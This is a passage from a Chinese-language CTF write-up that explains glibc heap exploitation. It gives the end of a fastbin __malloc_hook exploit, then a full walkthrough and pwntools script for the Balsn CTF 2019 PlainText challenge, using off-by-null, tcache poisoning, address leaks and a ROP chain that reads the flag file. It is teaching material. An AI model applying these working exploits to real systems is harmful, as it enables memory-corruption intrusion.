put(str(i), 0x38, str(i))
for i in range(10):
delete(str(i))
# allocate what we want in order
put('1', 0x200, '1')
put('2', 0x50, '2')
put('5', 0x68, '6')
put('3', 0x1f8, '3')
put('4', 0xf0, '4')
put('defense', 0x400, 'defense-data')
# free those need to be freed
delete('5')
delete('3')
delete('1')
delete('a' * 0x1f0 + p64(0x4e0))
delete('4')
put('0x200', 0x200, 'fillup')
put('0x200 fillup', 0x200, 'fillup again')
libc_leak = u64(get('2')[:6].ljust(8, '\x00'))
p.info('libc leak: 0x%x' % libc_leak)
libc_base = libc_leak - 0x3c4b78
p.info('libc_base: 0x%x' % libc_base)
put('fastatk', 0x100, 'a' * 0x58 + p64(0x71) + p64(libc_base + libc.symbols['__malloc_hook'] - 0x10 + 5 - 8))
put('prepare', 0x68, 'prepare data')
one_gadget = libc_base + 0x4526a
put('attack', 0x68, 'a' * 3 + p64(one_gadget))
p.sendline('DEL') # malloc(8) triggers one_gadget
p.interactive()
if __name__ == '__main__':
main()
实例 3 : Balsn_CTF_2019-PlainText
漏洞利用分析
程序的流程比较清晰简单，在 add 函数中，存在明显的 off-by-null。

而 free 中对被 free 的指针进行了置空，导致无法直接 show，而程序对我们的输入末尾附加 \x00，也无法使用释放再申请的方法，leak 比较困难。
分析结束。接下来进行利用
为了调试方便，建议先关闭 aslr。
一开始的时候 bin 中非常的杂乱，先把这些乱七八糟的东西申请出来
for i in range(16):
add(0x10,'fill')
for i in range(16):
add(0x60,'fill')
for i in range(9):
add(0x70,'fill')
for i in range(5):
add(0xC0,'fill')
for i in range(2):
add(0xE0,'fill')
add(0x170,'fill')
add(0x190,'fill')
# 49
由于我们部分覆写的时候会被附加一个 \x00，所以需要调整堆地址，为了调试方便，我选择这样调整，具体原因马上说
add(0x2A50,'addralign') # 50
然后进行堆布局
首先申请出一个较大的堆块，释放掉，再申请一个更大的堆块，让被释放的堆块进入 large bin
add(0xFF8,'large bin') # 51
add(0x18,'protect') # 52
delete(51)
add(0x2000,'push to large bin') # 51
由于之前进行的堆地址调整，在我的 gdb 中，该 large bin 的低地址的低 16 位就都是 0 了（这也就是之前堆地址调整时那样调整的原因。当然这只是在调试的情况下，实际打的时候只有低 12 位能保证为零，需要爆破 4 位，概率 1/16）。
然后进行这样的布局
add(0x28,p64(0) + p64(0x241) + '\x28') # 53 fd->bk : 0xA0 - 0x18
add(0x28,'pass-loss control') # 54
add(0xF8,'pass') # 55
add(0x28,'pass') # 56
add(0x28,'pass') # 57
add(0x28,'pass') # 58
add(0x28,'pass') # 59
add(0x28,'pass-loss control') # 60
add(0x4F8,'to be off-by-null') # 61

形成的效果就是上面这张图的样子。其中 chunk A 完成了对 fake chunk 的 size 和 fd，bk 指针的布局。其中 fd 将指向 &chunk_B - 0x18并且破坏了 largebin 的 fd，之后我们会修复这个 fd 并使之指向 fake chunk。
由于 fake chunk 的 fd 指向 &chunk_B - 0x18，我们希望 chunk B 的 fd 指向 fake chunk。所以我们需要先把它 free 掉再申请回来，然后部分覆写 fd 来实现。
chunk E 存在的意义是抬高堆地址，使之后 leak 堆地址的时候可以全部输出。
在 chunk E 和 chunk C 中夹了一些 chunk，这些 chunk 会被 overlapping，便于之后继续利用了，建议多夹一些，免得后来发现不够用。
chunk C 未来会用来对 chunk D off-by-null，然后 free chunk D 的时候就可以向地址和并了。
fake chunk 的 size 已经被修改好，我们不希望在修复 large bin 的 fd 的同时把这个 size 破坏掉，所以必须把 chunk A free 到 fastbin 中。也需要把 chunk B 和 chunk C free 掉，并且希望 chunk B 的 fd 指针指向一个堆地址，部分覆写后就可以使之指向 fake_chunk 了。
for i in range(7):
add(0x28,'tcache')
for i in range(7):
delete(61 + 1 + i)
delete(54)
delete(60)
delete(53)
for i in range(7):
add(0x28,'tcache')
# 53,54,60,62,63,64,65
add(0x28,'\x10') # 53->66
## stashed ##
add(0x28,'\x10') # 54->67
add(0x28,'a' * 0x20 + p64(0x240)) # 60->68
delete(61)
就是这样，先把 Tcache 填满，然后依次 free chunk B C A，再把 Tcache 清空，然后申请回 chunk A，部分覆写，使 fd 指向 fake_chunk。
然后由于 Tcache 的 stash 机制，chunk B C 进入 Tcache，再申请回来的就是 chunk B，部分覆写使 fd 指向 fake_chunk。
然后申请回 chunk C，进行 off-by-null。
free chunk D，成功实现 chunk overlapping。
然后进行 leak，需要把堆地址和 libc 地址都 leak 出来，leak 的方法有许多，这里提供一种（这种方法肯定不是最好的方法，但是可以完成 leak 就行）
add(0x140,'pass') # 61
show(56)
libc_base = u64(sh.recv(6).ljust(0x8,'\x00')) - libc.sym["__malloc_hook"] - 0x10 - 0x60
log.success("libc_base:" + hex(libc_base))
__free_hook_addr = libc_base + libc.sym["__free_hook"]
add(0x28,'pass') # 69<-56
add(0x28,'pass') # 70<-57
delete(70)
delete(69)
show(56)
heap_base = u64(sh.recv(6).ljust(0x8,'\x00')) - 0x1A0
log.success("heap_base:" + hex(heap_base))
然后进行 Tcache poisoning（这里我被卡了一小会，主要原因是一直想着通过 double free 来实现，这种想法确实挺蠢的，需要注意，Tcache poisoning 的利用只需要控制 next 指针就可以了，double free 往往是实现控制的方法，而不是必须，在本题有更好的方法，就不需要 double free 了）。
add(0x28,p64(0) * 2) # 69<-56
add(0x28,p64(0) * 2) # 70<-57
add(0x28,p64(0) * 2) # 71<-58
delete(68)
add(0x60,p64(0) * 5 + p64(0x31) + p64(__free_hook_addr)) # 68
add(0x28,'pass') # 72
## alloc to __free_hook ##
magic_gadget = libc_base + 0x12be97
add(0x28,p64(magic_gadget)) # 73
因为有 chunk overlapping，所以其实挺容易控制 next 指针的，比如通过上面这样的方法就可以分配到 __free_hook 了。
到这里就结束了堆上的利用，之后需要进行白名单绕过，具体方法这里不再赘述，请见《沙箱逃逸》目录下的《C 沙盒逃逸》
exp
#!/usr/bin/env python
# coding=utf-8
from pwn import *
context.terminal = ["tmux","splitw","-h"]
context.log_level = 'debug'
#sh = process("./note")
#libc = ELF("/glibc/2.29/64/lib/libc.so.6")
sh = process("./note-re")
libc = ELF("./libc-2.29.so")
def add(size,payload):
sh.sendlineafter("Choice: ",'1')
sh.sendlineafter("Size: ",str(size))
sh.sendafter("Content: ",payload)
def delete(index):
sh.sendlineafter("Choice: ",'2')
sh.sendlineafter("Idx: ",str(index))
def show(index):
sh.sendlineafter("Choice: ",'3')
sh.sendlineafter("Idx: ",str(index))
for i in range(16):
add(0x10,'fill')
for i in range(16):
add(0x60,'fill')
for i in range(9):
add(0x70,'fill')
for i in range(5):
add(0xC0,'fill')
for i in range(2):
add(0xE0,'fill')
add(0x170,'fill')
add(0x190,'fill')
# 49
add(0x2A50,'addralign') # 50
#add(0x4A50,'addralign') # 50
add(0xFF8,'large bin') # 51
add(0x18,'protect') # 52
delete(51)
add(0x2000,'push to large bin') # 51
add(0x28,p64(0) + p64(0x241) + '\x28') # 53 fd->bk : 0xA0 - 0x18
add(0x28,'pass-loss control') # 54
add(0xF8,'pass') # 55
add(0x28,'pass') # 56
add(0x28,'pass') # 57
add(0x28,'pass') # 58
add(0x28,'pass') # 59
add(0x28,'pass-loss control') # 60
add(0x4F8,'to be off-by-null') # 61
for i in range(7):
add(0x28,'tcache')
for i in range(7):
delete(61 + 1 + i)
delete(54)
delete(60)
delete(53)
for i in range(7):
add(0x28,'tcache')
# 53,54,60,62,63,64,65
add(0x28,'\x10') # 53->66
## stashed ##
add(0x28,'\x10') # 54->67
add(0x28,'a' * 0x20 + p64(0x240)) # 60->68
delete(61)
add(0x140,'pass') # 61
show(56)
libc_base = u64(sh.recv(6).ljust(0x8,'\x00')) - libc.sym["__malloc_hook"] - 0x10 - 0x60
log.success("libc_base:" + hex(libc_base))
__free_hook_addr = libc_base + libc.sym["__free_hook"]
add(0x28,'pass') # 69<-56
add(0x28,'pass') # 70<-57
delete(70)
delete(69)
show(56)
heap_base = u64(sh.recv(6).ljust(0x8,'\x00')) - 0x1A0
log.success("heap_base:" + hex(heap_base))
add(0x28,p64(0) * 2) # 69<-56
add(0x28,p64(0) * 2) # 70<-57
add(0x28,p64(0) * 2) # 71<-58
delete(68)
add(0x60,p64(0) * 5 + p64(0x31) + p64(__free_hook_addr)) # 68
add(0x28,'pass') # 72
## alloc to __free_hook ##
magic_gadget = libc_base + 0x12be97
add(0x28,p64(magic_gadget)) # 73
pop_rdi_ret = libc_base + 0x26542
pop_rsi_ret = libc_base + 0x26f9e
pop_rdx_ret = libc_base + 0x12bda6
syscall_ret = libc_base + 0xcf6c5
pop_rax_ret = libc_base + 0x47cf8
ret = libc_base + 0xc18ff
payload_addr = heap_base + 0x270
str_flag_addr = heap_base + 0x270 + 5 * 0x8 + 0xB8
rw_addr = heap_base
payload = p64(libc_base + 0x55E35) # rax
payload += p64(payload_addr - 0xA0 + 0x10) # rdx
payload += p64(payload_addr + 0x28)
payload += p64(ret)
payload += ''.ljust(0x8,'\x00')
rop_chain = ''
rop_chain += p64(pop_rdi_ret) + p64(str_flag_addr) # name = "./flag"
rop_chain += p64(pop_rsi_ret) + p64(0)
rop_chain += p64(pop_rdx_ret) + p64(0)
rop_chain += p64(pop_rax_ret) + p64(2) + p64(syscall_ret) # sys_open
rop_chain += p64(pop_rdi_ret) + p64(3) # fd = 3
rop_chain += p64(pop_rsi_ret) + p64(rw_addr) # buf
rop_chain += p64(pop_rdx_ret) + p64(0x100) # len
rop_chain += p64(libc_base + libc.symbols["read"])
rop_chain += p64(pop_rdi_ret) + p64(1) # fd = 1
rop_chain += p64(pop_rsi_ret) + p64(rw_addr) # buf
rop_chain += p64(pop_rdx_ret) + p64(0x100) # len
rop_chain += p64(libc_base + libc.symbols["write"])
payload += rop_chain
payload += './flag\x00'
add(len(payload) + 0x10,payload) # 74
#gdb.attach(proc.pidof(sh)[0])
delete(74)
sh.interactive()